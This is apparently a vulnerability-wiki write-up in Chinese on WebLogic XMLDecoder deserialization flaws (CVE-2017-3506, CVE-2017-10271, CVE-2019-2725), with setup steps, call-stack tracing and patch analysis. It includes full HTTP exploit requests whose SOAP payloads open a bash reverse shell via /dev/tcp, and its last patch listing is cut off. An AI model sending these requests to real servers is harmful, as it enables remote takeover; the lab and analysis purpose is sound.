# WebLogic-XMLDecoder 反序列化漏洞分析

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Unpatched exposed SOAP work-context endpoints, branch-specific patch states
- 证据范围：Substantial independent XMLDecoder tutorial and call-stack analysis, but later bypass sections are internally inconsistent and incomplete.

### 本次正文校订

- 按实际内容修正 2 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Both reverse-shell SOAP bodies include raw ampersands, invalid XML
- 2725 example reuses void/ProcessBuilder form without explaining patch state; it does not demonstrate the subsequently described class-tag bypass
- 2727 says reuse previous 2725 exploit, but that exploit contains neither described array-forName mechanism nor a permitted patched payload
- Patch code truncated and in final section severely interleaved/invalid
- Docker image unpinned and debug exposure not restricted

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 涉及 LDAP/RMI/DNS/HTTP 外带：回连只证明相应网络交互，不能单独证明命令执行；使用自控接收端，避免把日志、凭据或真实业务数据发送给第三方。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/WjsqEAH_iRuxgqoawDrTZQ)

**XMLEncoder&XMLDecoder**
=========================

XMLDecoder/XMLEncoder 是在 JDK1.4 版中添加的 XML 格式序列化持久性方案，使用 XMLEncoder 来生成表示 JavaBeans 组件 (bean) 的 XML 文档，用 XMLDecoder 读取使用 XMLEncoder 创建的 XML 文档获取 JavaBeans。

XMLEncoder
----------

例子代码如下

```
package ghtwf01.demo;

import javax.swing.*;
import java.beans.XMLEncoder;
import java.io.BufferedOutputStream;
import java.io.FileNotFoundException;
import java.io.FileOutputStream;

public class XmlEncoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLEncoder e = new XMLEncoder(new BufferedOutputStream(new FileOutputStream("result.xml")));
        e.writeObject(new JButton("Hello,xml"));
        e.close();
    }
}

```

序列化了 JButton 类，得到的 XML 文档如下

```
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_181" class="java.beans.XMLDecoder">
 <object class="javax.swing.JButton">
  <string>Hello,xml</string>
 </object>
</java>


```

XMLDecoder
----------

例子代码如下

```
package ghtwf01.demo;

import java.beans.XMLDecoder;
import java.io.*;

public class XmlEncoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("result.xml")));
        Object result = d.readObject();
        System.out.println(result);
        d.close();
    }
}

```

使用 XMLDecoder 读取序列化的 XML 文档，获取 JButton 类并打印输出

```
javax.swing.JButton[,0,0,0x0,invalid,alignmentX=0.0,alignmentY=0.5,border=com.apple.laf.AquaButtonBorder$Dynamic@1a6c5a9e,flags=288,maximumSize=,minimumSize=,preferredSize=,defaultIcon=,disabledIcon=,disabledSelectedIcon=,margin=javax.swing.plaf.InsetsUIResource[top=0,left=2,bottom=0,right=2],paintBorder=true,paintFocus=true,pressedIcon=,rolloverEnabled=false,rolloverIcon=,rolloverSelectedIcon=,selectedIcon=,text=Hello,xml,defaultCapable=true]

```

XML 标签、属性介绍
-----------

### string 标签

`hello,xml`字符串的表示方式为`<string>Hello,xml</string>`

### object 标签

通过 `<object>` 标签表示对象， `class` 属性指定具体类 (用于调用其内部方法)，`method` 属性指定具体方法名称 (比如构造函数的的方法名为 `new` )

`new JButton("Hello,xml")` 对应的`XML`文档:

```
<object class="javax.swing.JButton" method="new">
    <string>Hello,xml</string>
</object>


```

void 标签
=======

通过 `void` 标签表示函数调用、赋值等操作， `method` 属性指定具体的方法名称。

`JButton b = new JButton();b.setText("Hello, world");` 对应的`XML`文档:

```
<object class="javax.swing.JButton">
    <void method="setText">
    <string>Hello,xml</string>
    </void>
</object>


```

### array 标签

通过 `array` 标签表示数组， `class` 属性指定具体类，内部 `void` 标签的 `index` 属性表示根据指定数组索引赋值。  
`String[] s = new String[3];s[1] = "Hello,xml";` 对应的`XML`文档:

```
<array class="java.lang.String" length="3">
    <void index="1">
    <string>Hello,xml</string>
  </void>
</array>


```

XMLDecoder 反序列化漏洞
=================

下面来看一个解析 xml 导致反序列化命令执行的 demo:

```
package ghtwf01.demo;

import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class XmlDecoder {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder d = new XMLDecoder(new BufferedInputStream(new FileInputStream("/Users/ghtwf01/poc.xml")));
        Object result = d.readObject();
        d.close();
    }
}


```

poc.xml

```
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>/bin/bash</string>
            </void>
            <void index="1">
                <string>-c</string>
            </void>
            <void index="2">
                <string>open -a Calculator</string>
            </void>
        </array>
        <void method="start"/></void>
</java>


```



使用 java.lang.ProcessBuilder 进行代码执行，整个恶意 XML 反序列化后相当于执行代码:  

```
String[] cmd = new String[3];
cmd[0] = "/bin/bash";
cmd[1] = "-c";
cmd[2] = "open /System/Applications/Calculator.app/";
new ProcessBuilder(cmd).start();


```

Weblogic-XMLDecoder 漏洞复现
========================

vulhub 直接搭建环境，记得修改 docker-compose.yml 为如下

```
version: '2'
services:
 weblogic:
   image: vulhub/weblogic
   ports:
    - "7001:7001"
    - "8453:8453"

```

exp 如下

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: 192.168.50.145:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-type: text/xml
Connection: close
Content-Length: 639

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/192.168.50.145/4444 0>&1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>

```

这里要注意`Content-type`要设置为`text/xml`，不然会报 415 错误



Weblogic-XMLDecoder 反序列化漏洞分析  

===============================

远程调试
----

之前我们搭建环境的时候已经修改了 docker-compose.yml 文件，添加了远程调试端口 8453 映射

进入容器，配置 Weblogic 开启远程调试:

修改`/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh`，添加配置代码

```
debugFlag="true"
export debugFlag

```



然后重启容器，再从 dcoker 里面从拷⻉ Weblogic 源码和 JDK  

`docker cp 692394a45a38:/root ./weblogic`



在 Middleware 目录下提取全部的 jar 、 war 包到 lib 目录  

```
cd /Users/ghtwf01/Desktop/ghtwf01/vulhub/weblogic/CVE-2017-10271/weblogic/Oracle/Middleware
mkdir lib
find ./ -name "*.jar" -exec cp {} ./lib/ \;
find ./ -name "*.war" -exec cp {} ./lib/ \;

```

将 Oracle/Middleware/wlserver_10.3 作为 IDEA 项目打开，设置 JDK 为拷⻉出来的，然后添加包含 lib 目录到项目的 Libraries





设置 DEBUG 模式为 Remote ，端口为与 docker 映射出去相同的 8453  



现在就可以使用 debug，如果控制台输出`Connected to the target VM, address: '192.168.50.145:8453', transport: 'socket'`则说明配置成功  

CVE-2017-3506&CVE-2017-10271
----------------------------

影响范围

*   WebLogic 10.3.6.0
    
*   WebLogic 12.1.3.0
    
*   WebLogic 12.2.1.0
    
*   WebLogic 12.2.1.1
    
*   WebLogic 12.2.1.2
    

`CVE-2017-3506`和`CVE-2017-10271`均是 `XMLDecoder` 反序列化漏洞，`CVE-2017-3506`修补方案为禁用 `object` 标签。

`CVE-2017-10271`是通过 `void` 、 `new` 标签对`CVE-2017-3506`补丁的绕过。

这里以`CVE-2017-10271`为例进行漏洞分析

wls-wsat.war!/WEB-INF/web.xml



查看 `web.xml` ，可以发现存在漏洞的 `wls-wsat` 组件中包含不同的路由，均能触发漏洞  

weblogic.wsee.jaxws.workcontext.WorkContextServerTube#processRequest



这里 var1 的值是我们传入的恶意 xml 文档，var2 是数据中的 headers，var3 是从 var2 中获取 WorkAreaConstants.WORK_AREA_HEADER 得到的，然后将 var3 放入 readHeaderOld 函数中  

weblogic.wsee.jaxws.workcontext.WorkContextTube#readHeaderOld



var4 的字节数组输入流传入 WorkContextXmlInputAdapter 的构造函数  

weblogic.wsee.workarea.WorkContextXmlInputAdapter#WorkContextXmlInputAdapter


包含恶意 XML 的输入流作为参数传入 XMLDecoder 的构造函数，返回一个 WorkContextXmlInputAdapter 实例对象到上层的 var6 ， var6 作为参数传入 receive 函数

weblogic.wsee.jaxws.workcontext.WorkContextServerTube#receive



继续跟进 receiveRequest() 函数

weblogic.workarea.WorkContextMapImpl#receiveRequest



被传递到 WorkContextLocalMap 类的 receiveRequest() 方法

weblogic.workarea.WorkContextLocalMap#receiveRequest



继续跟进 readEntry() 函数

weblogic.workarea.spi.WorkContextEntryImpl#readEntry

  

继续跟进 readUTF() 函数



调用了 xmlDecoder 的`readObject`函数进行反序列化操作，最终造成命令执行  

整个调用栈如下

```
readUTF:111, WorkContextXmlInputAdapter (weblogic.wsee.workarea)
readEntry:92, WorkContextEntryImpl (weblogic.workarea.spi)
receiveRequest:179, WorkContextLocalMap (weblogic.workarea)
receiveRequest:163, WorkContextMapImpl (weblogic.workarea)
receive:71, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
readHeaderOld:107, WorkContextTube (weblogic.wsee.jaxws.workcontext)
processRequest:43, WorkContextServerTube (weblogic.wsee.jaxws.workcontext)
__doRun:866, Fiber (com.sun.xml.ws.api.pipe)
_doRun:815, Fiber (com.sun.xml.ws.api.pipe)
doRun:778, Fiber (com.sun.xml.ws.api.pipe)
runSync:680, Fiber (com.sun.xml.ws.api.pipe)
process:403, WSEndpointImpl$2 (com.sun.xml.ws.server)
handle:539, HttpAdapter$HttpToolkit (com.sun.xml.ws.transport.http)
handle:253, HttpAdapter (com.sun.xml.ws.transport.http)
handle:140, ServletAdapter (com.sun.xml.ws.transport.http.servlet)
handle:171, WLSServletAdapter (weblogic.wsee.jaxws)
run:708, HttpServletAdapter$AuthorizedInvoke (weblogic.wsee.jaxws)
doAs:363, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:146, SecurityManager (weblogic.security.service)
authenticatedInvoke:103, ServerSecurityHelper (weblogic.wsee.util)
run:311, HttpServletAdapter$3 (weblogic.wsee.jaxws)
post:336, HttpServletAdapter (weblogic.wsee.jaxws)
doRequest:99, JAXWSServlet (weblogic.wsee.jaxws)
service:99, AbstractAsyncServlet (weblogic.servlet.http)
service:820, HttpServlet (javax.servlet.http)
run:227, StubSecurityHelper$ServletServiceAction (weblogic.servlet.internal)
invokeServlet:125, StubSecurityHelper (weblogic.servlet.internal)
execute:301, ServletStubImpl (weblogic.servlet.internal)
execute:184, ServletStubImpl (weblogic.servlet.internal)
wrapRun:3732, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
run:3696, WebAppServletContext$ServletInvocationAction (weblogic.servlet.internal)
doAs:321, AuthenticatedSubject (weblogic.security.acl.internal)
runAs:120, SecurityManager (weblogic.security.service)
securedExecute:2273, WebAppServletContext (weblogic.servlet.internal)
execute:2179, WebAppServletContext (weblogic.servlet.internal)
run:1490, ServletRequestImpl (weblogic.servlet.internal)
execute:256, ExecuteThread (weblogic.work)
run:221, ExecuteThread (weblogic.work)

```

### CVE-2017-3506 补丁分析

这里补丁在`WorkContextXmlInputAdapter`中添加了`validate`验证，限制了 object 标签，从而限制通过 XML 来构造类

```
private void validate(InputStream is) {
      WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
      try {
         SAXParser parser = factory.newSAXParser();
         parser.parse(is, new DefaultHandler() {
            public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
               if(qName.equalsIgnoreCase("object")) {
                  throw new IllegalStateException("Invalid context type: object");
               }
            }
         });
      } catch (ParserConfigurationException var5) {
         throw new IllegalStateException("Parser Exception", var5);
      } catch (SAXException var6) {
         throw new IllegalStateException("Parser Exception", var6);
      } catch (IOException var7) {
         throw new IllegalStateException("Parser Exception", var7);
      }
   }

```

绕过方法很简单，将`object`修改成`void`，也就是最开始漏洞复现的 exp

### CVE-2017-10271 补丁分析

```
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }

```

依然是进行黑名单判断

CVE-2019-2725
-------------

在 CVE-2017-10271 被修复的两年后出现了新漏洞，也就是 CVE-2019-2725，由于组件_async 存在反序列化

CVE-2019-2725 exp 如下

```http
POST /_async/AsyncResponseService HTTP/1.1
Host: 192.168.50.145:7001
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-type: text/xml
Connection: close
Content-Length: 853

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing"
xmlns:asy="http://www.bea.com/async/AsyncResponseService"> <soapenv:Header>
<wsa:Action>xx</wsa:Action>
<wsa:RelatesTo>xx</wsa:RelatesTo>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1"> 
<string>-c</string>
</void>
<void index="2">
<string>bash -i >& /dev/tcp/192.168.50.145/4444 0>&1</string>
</void>
</array>
<void method="start"/> </void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>

```



### CVE-2017-10271 补丁绕过分析及利用方式

除了_async 组件的反序列化还有如下补丁绕过方式，由于环境原因不能细致分析

使用 class 标签构造类，但是由于限制了 method 函数，无法进行函数调用，只能从构造方法下手，且参数为基本类型：

*   构造函数有写文件操作，文件名和内容可控，可以进行 getshell。
    
*   构造函数有其他的反序列化操作，我们可以进行二次反序列化操作。
    
*   构造函数直接有执行命令的操作，执行命令可控。
    
*   有其它的可能导致 rce 的操作，比如表达式注入之类的。
    

目前存在的利用链有：

*   FileSystemXmlApplicationContext-RCE
    
*   UnitOfWorkChangeSet-RCE
    
*   ysoserial-jdk7u21-RCE
    
*   JtaTransactionManager-JNDI 注入
    

CVE-2019-2727
-------------

CVE-2019-2725 的补丁如下

```
private void validate(InputStream is) {
WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory(); try {
SAXParser parser = factory.newSAXParser(); parser.parse(is, new DefaultHandler() {
private int overallarraylength = 0;
